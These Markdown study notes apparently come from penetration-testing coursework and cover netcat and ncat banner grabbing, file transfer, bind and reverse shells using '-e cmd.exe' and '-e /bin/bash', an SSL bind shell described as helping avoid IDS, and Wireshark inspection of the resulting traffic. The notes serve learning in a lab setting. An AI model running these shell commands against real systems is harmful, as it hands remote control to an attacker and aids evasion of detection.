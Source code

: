 # Essential Tools
## Netcat
### Banner Grabbing
#### Connect to port to interact with services
`nc -nv $IP $PORT`

* Check banner for application and version

##### SMTP:
`nc -nv <windows IP> 25`

##### POP3:
`nc -nv <windows IP> 110`

##### IMAP:
`nc -nv <windows IP> 143`

#### Netcat chat

On listening host:`nc -nlvp $PORT`

On connecting host:`nc -nv $IP $PORT`

Type some words, you will see it on listening host
* sent in plaintext

#### Transfer text/binary files
On listening host:`nc -nlvp $PORT > incoming.exe`

On connecting host:`nc -nv $IP $PORT < /PATH/TO/FILE`

* No feedback about file upload process
* To test, check file is working/complete

### Executing Remote Commands/Output redirection
#### Bind shell
* $Bob - Windows 
* $Alice - Kali - NATed IP

Bob: `nc -lvp 4444 -e cmd.exe`
* presents command prompt to whoever connects
* cmd shell is bound to port 4444

Alice: `nc -vn $BOB 4444`
* connects to Bob
* Presented with windows command prompt.

#### Reverse shell
* Needs Bob to connect to Alice

Bob:`nc -lvp 4444`

Alice: `nc -vn $BOB_IP 4444 -e /bin/bash`
* Bob can type linux commands and get Output
* Windows box can now control kali

## Ncat
* Netcat lacks both encryption and access limitations
* using Ncat helps avoid IDS
* modern day rewrite of Netcat

### Set up SSL bind shell

Bob: `ncat -lvp 4444 -e cmd.exe --allow $ALICE_IP --ssl`

Alice: `ncat -v $BOB_IP 4444 --ssl`
* should have a secure bind shell

To verify one, can use wireshark

## wireshark
### Checking for unencrypted bind shell

1. Choose interface
2. Set up filter that only captures port 4444
  * host $BOB_IP and tcp port 4444
3. Set up bind shell while Wireshark runs in background
4. Stop capture
5. "Follow TCP Stream"

You should be able to see the connection and various commands performed

### Checking for encrypted ncat ssl shell
1. Same setup as above

You should see the traffic is encrypted
